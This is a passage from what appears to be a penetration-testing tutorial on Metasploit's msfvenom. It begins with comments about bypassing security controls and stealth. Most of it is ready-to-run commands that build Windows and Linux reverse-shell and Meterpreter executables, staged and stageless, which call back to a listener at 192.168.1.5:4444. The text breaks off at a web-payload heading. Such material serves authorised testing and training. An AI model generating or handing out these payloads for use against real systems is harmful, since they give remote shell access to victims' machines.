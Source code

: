 ```bash
# - Some languages bypass specific security controls
# - Language-specific features enable advanced techniques
# - Redundancy improves success probability
# - Platform optimization enhances stealth
```

## Advanced Payload Generation with msfvenom

### **msfvenom Comprehensive Usage**

**What msfvenom provides:** Metasploit's payload generation tool that creates shellcode, executables, and scripts in multiple formats with extensive customization options.

**Why msfvenom is essential:** Industry-standard payload generator, supports all major platforms, provides encoding/encryption, handles bad character restrictions, and integrates with exploitation frameworks.

```bash
# msfvenom syntax and basic usage
# msfvenom -p <payload> <options> -f <format> <output_options>

# List available payloads
msfvenom --list payloads                     # All available payloads
msfvenom --list payloads | grep windows     # Windows-specific payloads
msfvenom --list payloads | grep linux       # Linux-specific payloads
msfvenom --list payloads | grep python      # Python-based payloads

# List available formats
msfvenom --list formats                      # All output formats

# List available encoders
msfvenom --list encoders                     # Payload encoders

# Windows payload generation
# Basic Windows reverse shell executable
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell.exe

# Windows Meterpreter reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o meterpreter.exe

# 64-bit Windows payloads
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell64.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o meterpreter64.exe

# Stageless vs Staged payloads
# Staged payload (smaller initial size, downloads stage 2)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o staged.exe

# Stageless payload (entire payload in one piece)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o stageless.exe

# Linux payload generation
# Linux ELF executable
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o shell

# Linux 64-bit executable
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o shell64

# Linux Meterpreter
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o meterpreter_linux

# Web application payloads
```